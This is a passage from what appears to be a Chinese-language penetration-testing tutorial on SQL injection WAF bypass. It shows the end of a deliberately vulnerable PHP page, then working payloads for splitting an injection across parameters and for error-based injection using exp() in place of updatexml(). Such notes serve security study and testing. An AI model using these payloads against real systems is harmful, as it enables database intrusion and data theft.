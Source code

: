 ```sql
    echo "密码:" . $row['email'] . "<br>";
}

echo '<hr><br>';
echo "查询语句是：$sql <br>";
echo mysqli_error($con);
?>
```

可以使用如下命令绕过拦截

```sql
id=-1'union/*&username=*/select 1,user(),3,4--+
```

多参数拆分注入

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1676175035416-dae551b2-fb52-4b52-83e1-a8bedd8db4ca.png)

# 使用生僻函数绕过 

使用生僻函数替代常见的函数，这样可以绕过过滤规则不全面的waf拦截

例如使用exp()替换updatexml()

```sql
id=-1' and exp(~(select * from(select user())a))--+
```
